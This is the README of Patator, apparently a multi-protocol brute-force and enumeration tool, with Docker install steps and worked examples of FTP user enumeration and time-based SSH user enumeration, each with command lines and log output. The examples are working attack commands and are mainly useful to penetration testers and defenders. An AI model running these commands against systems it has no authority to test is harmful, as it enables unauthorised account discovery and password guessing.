 The name "Patator" comes from [this](https://www.youtube.com/watch?v=9sF9fTALhVA).

Patator is NOT script-kiddie friendly, please read the full README inside [patator.py](patator.py) before reporting.

Please donate if you like this project! :)

[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=SB36VJH4EM5WG&lc=AU&item_name=lanjelot&item_number=patator&currency_code=AUD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted)

Many thanks! [@lanjelot](https://twitter.com/lanjelot)

## Install

```
git clone https://github.com/lanjelot/patator.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t patator patator/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt patator dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Examples

* FTP : Enumerating users denied login in `vsftpd/userlist`

```
$ ftp_login host=10.0.0.1 user=FILE0 0=logins.txt password=asdf -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
19:36:06 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 19:36 AEDT
19:36:06 patator    INFO -
19:36:06 patator    INFO - code  size    time | candidate                          |   num | mesg
19:36:06 patator    INFO - -----------------------------------------------------------------------------
19:36:07 patator    INFO - 230   17     0.002 | anonymous                          |     7 | Login successful.
19:36:07 patator    INFO - 230   17     0.001 | ftp                                |    10 | Login successful.
19:36:08 patator    INFO - 530   18     1.000 | root                               |     1 | Permission denied.
19:36:17 patator    INFO - 530   18     1.000 | michael                            |    50 | Permission denied.
19:36:36 patator    INFO - 530   18     1.000 | robert                             |    93 | Permission denied.
...
```

Tested against `vsftpd-3.0.2-9` on `CentOS 7.0-1406`.

* SSH : Time-based user enumeration

```
$ ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=$(perl -e "print 'A'x50000") --max-retries 0 --timeout 10 -x ignore:time=0-3
17:45:20 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 17:45 AEDT
17:45:20 patator    INFO -
17:45:20 patator    INFO - code  size    time | candidate                          |   num | mesg
17:45:20 patator    INFO - -----------------------------------------------------------------------------
17:45:30 patator    FAIL - xxx   41    10.001 | root                               |     1 | <class '__main__.TimeoutError'> timed out
17:45:34 patator    FAIL - xxx   41    10.000 | john                               |    23 | <class '__main__.TimeoutError'> timed out
17:45:37 patator    FAIL - xxx   41    10.000 | joe                                |    40 | <class '__main__.TimeoutError'> timed out
```